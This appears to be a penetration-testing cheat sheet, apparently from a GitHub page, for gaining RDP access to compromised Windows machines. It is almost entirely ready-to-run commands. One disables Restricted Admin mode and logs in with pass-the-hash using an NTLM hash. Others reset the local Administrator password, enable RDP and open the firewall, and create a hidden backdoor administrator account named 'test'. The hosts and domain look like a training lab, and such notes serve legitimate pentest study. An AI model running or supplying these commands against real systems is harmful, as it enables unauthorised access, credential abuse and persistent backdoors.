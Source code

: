 # For restricted access to RDP with hashes
```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
xfreerdp /cert-ignore /u:yoshi /d:MEDTECH /pth:fdf36048c1cf88f5630381c5e38feb8e /v:172.16.186.82
```
------------------------ 

# Set up RDP by enabling RDP and adding administrator to RDP group
```bash
# change admin password
$password = ConvertTo-SecureString "test!" -AsPlainText -Force
$UserAccount = Get-LocalUser -Name "Administrator"
$UserAccount | Set-LocalUser -Password $Password

# enable RDP
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# add administrator to RDP group
net localgroup "Remote Desktop Users" "Administrator" /add

# connect to rdp
xfreerdp  /u:Administrator /p:"test!" /v:192.168.236.121 
```
------------------------ 

# Set up RDP by creating a new user for RDP   
```bash
$password = ConvertTo-SecureString "test!" -AsPlainText -Force
New-LocalUser "test" -Password $password -FullName "test" -Description "test"
Add-LocalGroupMember -Group "Administrators" -Member "test"
net localgroup "Remote Desktop Users" "test" /add
```
------------------------ 

# Enabled RDP remotely (first we open the port and configure the server, then we create a new user)
```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1

$password = ConvertTo-SecureString "vau!XCKjNQBv3$" -AsPlainText -Force
New-LocalUser "test" -Password $password -FullName "test" -Description "test"
Add-LocalGroupMember -Group "Administrators" -Member "test"
net localgroup "Remote Desktop Users" "test" /add
```
